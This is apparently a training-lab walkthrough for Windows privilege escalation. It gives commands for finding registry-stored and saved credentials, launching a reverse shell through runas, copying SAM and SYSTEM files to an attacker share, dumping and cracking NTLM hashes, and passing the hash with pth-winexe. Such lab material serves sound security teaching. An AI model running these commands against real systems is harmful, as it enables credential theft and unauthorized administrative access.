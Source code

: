 
# Registry

The registry can be searched for keys and values that contain the word "password":
```
reg query HKLM /f password /t REG_SZ /s
```
If you want to save some time, query this specific key to find admin AutoLogon credentials:
```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```
On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):
```
winexe -U 'admin%password' //MACHINE_IP cmd.exe
```

# Saved Creds
List any saved credentials:
```
cmdkey /list
```
Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

# Passwords - Security Account Manager (SAM)

The SAM and SYSTEM files can be used to extract user password hashes. This VM has insecurely stored backups of the SAM and SYSTEM files in the C:\Windows\Repair\ directory.

Transfer the SAM and SYSTEM files to your Kali VM:
```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\   copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:

```
git clone https://github.com/Tib3rius/creddump7   
pip3 install pycrypto   
python3 creddump7/pwdump.py SYSTEM SAM
```

Crack the admin NTLM hash using hashcat:

```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

You can use the cracked password to log in as the admin using winexe or RDP.
# Passing the Hash

Why crack a password hash when you can authenticate using the hash?

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:

```
pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe
```